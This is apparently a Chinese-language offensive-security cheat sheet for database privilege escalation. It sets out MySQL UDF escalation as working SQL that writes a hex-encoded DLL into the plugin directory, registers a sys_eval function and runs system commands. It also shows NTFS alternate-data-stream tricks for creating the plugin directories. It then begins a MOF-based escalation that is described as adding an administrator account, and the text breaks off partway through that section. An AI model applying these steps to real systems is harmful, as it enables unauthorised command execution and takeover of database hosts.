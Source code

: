 ## docker
未授权命令执行


# 数据库操作
## mysql
### UDF(User Defined Function)提权

**利用条件:**

1. secure-file-priv 不为NULL,查询语句 `show global variables like '%secure%';存在\lib\plugin目录.
2. mysql高权运行.

**步骤:**

1. 查询secure-file-priv是否为null,`show global variables like '%secure%';`

2. 确定mysql版本来确定要使用的udf版本(x64,x86) `show variables like "%version%";`

3. ```mysql
   use mysql;
   set @my_udf_a=concat('',dll的16进制);//将dll以16进制赋值给一个变量
   create table my_udf_data(data LONGBLOB);//创建表
   insert into my_udf_data values("");update my_udf_data set data = @my_udf_a;//将存储dll的的变量插入表中
   show variables like '%plugin%';//查看导出目录
   select data from my_udf_data into DUMPFILE '%plugin%/udftest.dll';//导出dll
   create function sys_eval returns string soname 'udftest.dll';//从dll中创建函数
   select sys_eval('whoami');//
   ```

**Tips:**

1. 4.1以前随意注册,无限制.

2. 在4.1到5之后创建函数时,不能包含`\`和`/`.所以需要释放到system32目录中.

3. 5.1之后需要导出到指定的插件目录,即`%plugin%`变量的位置,默认文件夹不存在,需要手动创建(利用NTFS流).
```mysql
select @@basedir;  //查找到mysql的目录
select 'xxx' into dumpfile 'Mysql安装路径\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录
select 'xxx' into dumpfile 'Mysql安装路径\\lib\\plugin::$INDEX_ALLOCATION';//利用NTFS ADS创建plugin目录 ）
```



## MOF提权

> mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。有了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

**利用条件:**
